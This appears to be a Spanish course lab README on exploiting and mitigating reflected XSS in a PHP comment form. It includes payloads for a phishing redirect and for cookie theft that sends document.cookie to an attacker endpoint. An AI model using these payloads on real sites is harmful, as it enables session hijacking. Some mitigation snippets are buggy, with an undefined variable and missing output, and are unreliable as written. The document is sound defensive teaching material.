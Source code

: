 # PPS-Unidad3Actividad5-AlbertoVG

Explotación y Mitigación de Cross-Site Scripting (XSS)
===
Tenemos como objetivo:

> - Recordar cómo se pueden hacer ataques de Cross-Site Scripting (XSS)
>
> - Conocer las diferentes formas de ataques XSS.
>
> - Analizar el código de la aplicación que permite ataques de Cross-Site Scripting (XSS)
>
> - Implementar diferentes modificaciones del codigo para aplicar mitigaciones o soluciones.

## ¿Qué es XSS?
---
Cross-Site Scripting (XSS) ocurre cuando una aplicación no valida ni sanitiza l>
scripts maliciosos se ejecuten en el navegador de otros usuarios.

Tipos de XSS:
- **Reflejado**: Se ejecuta inmediatamente al hacer la solicitud con un payload malicioso.
- **Almacenado**: El script se guarda en la base de datos y afecta a otros usuarios.
- **DOM-Based**: Se inyecta código en la estructura DOM sin que el servidor lo detecte

---
## ACTIVIDADES A REALIZAR
> Lee detenidamente la sección de Cross-Site Scripting de la página de PortWigger <https://portswigger.net/web-security/cross-site-scripting>

> Lee el siguiente [documento sobre Explotación y Mitigación de ataques de Inyección SQL](./files/ExplotacionYMitigacionXSS.pdf) de Raúl Fuentes. Nos va a seguir de guía para aprender a explotar y mitigar ataques de inyección XSS Reflejado en nuestro entorno de pruebas.
 
> También y como marco de referencia, tienes [la sección de correspondiente de ataque XSS reglejado de la **Proyecto Web Security Testing Guide** (WSTG) del proyecto **OWASP**.](https://owasp.org/www-project-web-security-testing-guide/stable/4-Web_Application_Security_Testing/07-Input_Validation_Testing/01-Testing_for_Reflected_Cross_Site_Scripting).

Vamos realizando operaciones:

## Código vulnerable
---
Crear el archivo vulnerable comment.php:

~~~
<?php
if (isset($_POST['comment'])) {
	echo "Comentario publicado: " . $_POST['comment'];
}
?>
<form method="post">
	<input type="text" name="comment">
	<button type="submit">Enviar</button>
</form>
~~~

Este código muestra un formulario donde el usuario puede ingresar un comentario en un campo de texto. Cuando
el usuario envía el formulario, el comentario ingresado se muestra en la pantalla con el mensaje "Comentario publicado:
\[comentario\]". 

El Código no sanitiza la entrada del usuario, lo que permite inyectar scripts maliciosos.

![](images/Imagen1.png)

### **Explotación de XSS**
---

Abrir el navegador y acceder a la aplicación: <http://localhost/comment.php>

** Explotación 1**
Ingresar el siguiente código en el formulario:

~~~
<script>alert('XSS ejecutado!')</script>
~~~

Si aparece un mensaje de alerta (alert()) en el navegador, significa que la aplicación es vulnerable.

![](images/Imagen2.png)

**Explotación 2**

Podríamos redirigir a una página de phishing:

`<script>window.location='https://fakeupdate.net/win11/'</script>`

![](images/Imagen3.png)


**Capturar cookies del usuario (en ataques reales):**
---
Con este ataque, un atacante podría robar sesiones de usuarios.

- Primero preparamos el **servidor atacante**:

En el caso de que estés utilizando la máquina docker de la pila LAMP, recuerda que tienes que conectarte al servicio docker  php83 primero:
~~~
docker exec -it lamp-php83 /bin/bash
~~~

Crea en tu servidor web una carpeta con nombre cookieStealer y carpetas asociadas:
~~~
mkdir /var/www/html/cookieStealer/
touch /var/www/html/cookieStealer/index.php
touch /var/www/html/cookieStealer/cookies.txt
chmod 777 /var/www/html/cookieStealer/cookies.txt
~~~
 
> Si estamos con la Pila LAMP también lo podemos hacer directamente en la ruta _./www/cookieStealer_

Copia en el archivo coockieStealer/index.php [este archivo php](files/steal.php)
 - Ataque: Si insertamos en el comentario el siguiente script
~~~
<script>document.write('<img src="http://localhost/cookieStealer/index.php?cookie='+document.cookie+'">')</script>`
~~~

![](images/Imagen4.png)

En el archivo **cookie.txt** del servidor del atacante se habrán guardado los datos de nuestra cookie:

![](images/Imagen5.png)

Puedes investigar más en <https://github.com/TheWation/PhpCookieStealer/tree/master>

## **Mitigación**
---
**Uso de filter_input() para filtrar caracteres.**
---
Filtra caracteres problemáticos.

Crea el documento comment1.php con el siguiente contenido:

~~~
<?php
function filter_string_polyfill(string $string): string
{
    // Elimina caracteres nulos y etiquetas HTML
    $str = preg_replace('/\x00|<[^>]*>?/', '', $string);
    // Sustituye comillas por entidades HTML
    return str_replace(["'", '"'], ['&#39;', '&#34;'], $str);
}

// Verificar si el comentario ha sido enviado
if ($_SERVER['REQUEST_METHOD'] === 'POST') {
    // Obtener y sanitizar el comentario
    $comment = filter_string_polyfill($_POST['comment'] ?? ''); // Usamos '??' para manejar el caso de que no se haya enviado ningún comentario
}
?>

<form method="post">
    <label for="comment">Comentario:</label>
    <input type="text" name="comment" id="comment">
    <button type="submit">Enviar</button>
</form>
~~~

![](images/Imagen6.png)

La función que hemos creado al principio del documento: filter_string_polyfill nos va a eliminar todos los caracteres peligrosos y nos cambia caracteres conflictivos.

**Sanitizar la entrada con htmlspecialchars()**
---
htmlspecialchars() convierte caracteres especiales en sus equivalentes entidades HTML. Esto garantiza que incluso si el usuario ingresa una cadena que contiene etiquetas o código HTML, se mostrará como texto sin formato en lugar de que el navegador lo ejecute.
- <script> → &lt;script&gt;
- " → &quot;
- ' → &#39;

Con esta corrección, el intento de inyección de JavaScript se mostrará como texto en lugar de ejecutarse.

Crea un archivo comment2.php con el siguiente contenido 

~~~
<?php
if (isset($_POST['comment'])) {
        // para manejar el caso de que no se haya enviado ningún comentario
    // htmlspecialchars convierte caracteres especiales en equivalentes html
    $comment = htmlspecialchars($comment, ENT_QUOTES, 'UTF-8');

}
?>
<form method="post">
	<input type="text" name="comment">
	<button type="submit">Enviar</button>
</form>
~~~

![](images/Imagen7.png)

Aunque usar htmlspecialchars() es una buena medida para prevenir ataques XSS, todavía se puede mejorar la
seguridad y funcionalidad del código con los siguientes puntos:

**Validación de entrada**
---

Actualmente, el código permite que el usuario envíe cualquier contenido, incluyendo texto vacío o datos
demasiado largos. Puedes agregar validaciones para asegurarte de que el comentario sea adecuado:

Crea un archivo comment3.php con el siguiente contenido:
~~~
<?php
//sanitizar comentario
$comment = htmlspecialchars($_POST['comment'], ENT_QUOTES, 'UTF-8');
if (!empty($comment) && strlen($comment) <= 500) {
        echo "Comentario publicado: " . $comment;
} else {
        echo "Error: El comentario no puede estar vacío y debe tener máximo 500caracteres.";
}
?>

<form method="post">
        <input type="text" name="comment">
        <button type="submit">Enviar</button>
</form>
~~~

Evita comentarios vacíos o excesivamente largos (500 caracteres).

![](images/Imagen8.png)

**Protección contra inyecciones HTML y JS (XSS)**
---
Si bien htmlspecialchars() mitiga la ejecución de scripts en el navegador, se puede reforzar con strip_tags() si
solo se quiere texto sin etiquetas HTML:

`$comment = strip_tags($_POST['comment']);`

Elimina etiquetas HTML completamente. Útil si no quieres permitir texto enriquecido (bold, italic, etc.).

Si en cambio si se quiere permitir algunas etiquetas (por ejemplo, \<b\> y \<i\>), se puede hacer:

`$comment = strip_tags($_POST['comment'], '<b><i>');`

**Protección contra ataques CSRF**
---
Actualmente, cualquiera podría enviar comentarios en el formulario con una solicitud falsa desde otro sitio web.

Para prevenir esto, se puede generar un token CSRF y verificarlo antes de procesar el comentario.

En la [proxima actividad sobre ataques CSRF](https://github.com/jmmedinac03vjp/PPS-Unidad3Actividad6-CSRF) lo veremos más detenidamente.

_Generar y almacenar el token en la sesión_
~~~
session_start();
if (!isset($_SESSION['csrf_token'])) {
$_SESSION['csrf_token'] = bin2hex(random_bytes(32));
}
~~~

_Agregar el token al formulario_
`<input type="hidden" name="csrf_token" value="<?php echo $_SESSION['csrf_token']; ?>">`

_Verificar el token antes de procesar el comentario_
~~~
if (!isset($_POST['csrf_token']) || $_POST['csrf_token'] !== $_SESSION['csrf_token'])
{
die("Error: Token CSRF inválido.");
}
~~~
Estas modificaciones previenen ataques de falsificación de solicitudes (CSRF).

## Código Seguro


Crea el archivo comment4.php con todas las mitigaciones. La mitigaciones con mejoras para evitar CSRF las veremos en la siguiente actividad.

~~~
<?php
function filter_string_polyfill(string $string): string
{
    // Elimina caracteres nulos y etiquetas HTML
    $str = preg_replace('/\x00|<[^>]*>?/', '', $string);
    // Sustituye comillas por entidades HTML
    return str_replace(["'", '"'], ['&#39;', '&#34;'], $str);
}
session_start();
// Generar token CSRF si no existe
if (!isset($_SESSION['csrf_token'])) {
        $_SESSION['csrf_token'] = bin2hex(random_bytes(32));
}
if ($_SERVER["REQUEST_METHOD"] == "POST") {
        // Verificar el token CSRF
        if (!isset($_POST['csrf_token']) || $_POST['csrf_token'] !==$_SESSION['csrf_token']) {
                die("Error: Token CSRF inválido.");
        }// Verificar si el comentario ha sido enviado
        // Obtener y sanitizar el comentario
        $comment = filter_string_polyfill($_POST['comment'] ?? ''); // Usamos '??' para manejar el caso de que no se haya enviado ningún comentario
        $comment = htmlspecialchars($comment, ENT_QUOTES, 'UTF-8');
    // Validación de longitud y evitar comentarios vacíos.
    if (!empty($comment) && strlen($comment) <= 500) {
        echo "Comentario publicado: " . $comment;
    } else {
        echo "Error: El comentario no puede estar vacío y debe tener máximo 500 caracteres.";
    }
}
?>

<!DOCTYPE html>
<html lang="es">
<head>
        <meta charset="UTF-8">
        <meta name="viewport" content="width=device-width, initial-scale=1.0">
        <title>Comentarios Seguros</title>
</head>
<body>
        <form method="post">
                <label for="comment">Escribe tu comentario:</label>
                <input type="text" name="comment" id="comment" required maxlength="500">
                <input type="hidden" name="csrf_token" value="<?php echo
$_SESSION['csrf_token']; ?>">
                <button type="submit">Enviar</button>
        </form>
</body>
</html>
~~~

Aquí está el código securizado:

🔒 Medidas de seguridad implementadas

1. Eliminación de etiquetas HTML y caracteres nulos:

La función filter_string_polyfill() usa preg_replace('/\x00|<[^>]*>?/', '', $string); para eliminar caracteres nulos (\x00) y cualquier etiqueta HTML (<[^>]*>?). Esto reduce la posibilidad de inyección de scripts.

2. Escapado de comillas:

En filter_string_polyfill(), las comillas simples (') y dobles (") se reemplazan por sus equivalentes en entidades HTML (&#39; y &#34;). Esto evita el cierre prematuro de atributos en HTML.

3. Uso de htmlspecialchars:

Después de aplicar filter_string_polyfill(), se vuelve a ejecutar htmlspecialchars($comment, ENT_QUOTES, 'UTF-8');, lo que convierte caracteres especiales en entidades HTML.

	- ENT_QUOTES protege contra XSS al convertir tanto comillas simples como dobles en sus versiones seguras (&#39; y &#34;).

	- UTF-8 previene ataques basados en codificaciones incorrectas.  

4. Validación de longitud y contenido:

Se valida que el comentario no esté vacío y que no supere los 500 caracteres. Aunque esto no previene directamente XSS, ayuda a limitar intentos de ataques masivos.




🚀 Resultado

✔ Código seguro contra **Cross-Site Scripting (XSS)**

---
## ENTREGA

>__Realiza las operaciones indicadas__

>__Crea un repositorio  con nombre PPS-Unidad3Actividad5-Tu-Nombre donde documentes la realización de ellos.__

> No te olvides de documentarlo convenientemente con explicaciones, capturas de pantalla, etc.

>__Sube a la plataforma, tanto el repositorio comprimido como la dirección https a tu repositorio de Github.__
